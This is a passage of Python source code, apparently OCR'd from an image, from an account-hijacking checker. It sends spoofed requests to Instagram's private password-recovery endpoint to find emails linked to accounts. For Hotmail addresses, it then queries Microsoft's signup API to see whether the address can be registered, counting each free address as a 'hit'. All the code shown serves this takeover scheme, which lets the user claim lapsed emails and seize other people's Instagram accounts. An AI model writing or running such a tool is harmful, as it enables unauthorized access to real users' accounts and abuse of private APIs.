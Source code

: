         else: 
          bademail+=1
          amir()
    except:''

def hotmail(email):
    global hits, bademail
    cookies = {
        'amsc': amsc,
    }

    headers = {
        'canary': canary,
        'origin': 'https://signup.live.com',
        'referer': 'https://signup.live.com/signup?lic=1&uaid=3daaf5bf6b70499d8a5035844d5bbfd8',
        'user-agent': 'Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Mobile Safari/537.36',
    }

    json_data = {
        'signInName': email,
    }

    response = requests.post(
        'https://signup.live.com/API/CheckAvailableSigninNames',
        cookies=cookies,
        headers=headers,
        json=json_data,
    ).text
    
    if '"isAvailable":true' in response:
        hits += 1
        amir()
        username, gg = email.split('@')
        InfoAcc(username, gg)
    else:
        bademail += 1
        amir()
        
def check(email):
    global goodig, badinsta
    ua = generate_user_agent()
    dev = 'android-'
    device_id = dev + hashlib.md5(str(uuid.uuid4()).encode()).hexdigest()[:16]
    uui = str(uuid.uuid4())
    headers = {
        'User-Agent': ua,
        'Cookie': 'mid=ZVfGvgABAAGoQqa7AY3mgoYBV1nP; csrftoken=9y3N5kLqzialQA7z96AMiyAKLMBWpqVj',
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    }
    data = {
        'signed_body': '0d067c2f86cac2c17d655631c9cec2402012fb0a329bcafb3b1f4c0bb56b1f1f.' + json.dumps({
            '_csrftoken': '9y3N5kLqzialQA7z96AMiyAKLMBWpqVj',
            'adid': uui,
            'guid': uui,
            'device_id': device_id,
            'query': email
        }),
        'ig_sig_key_version': '4',
    }
    response = requests.post('https://i.instagram.com/api/v1/accounts/send_recovery_flow_email/', headers=headers, data=data).text
    if email in response:
        if '@hotmail.com' in email:
            hotmail(email)
        elif '@gmail.com' in email: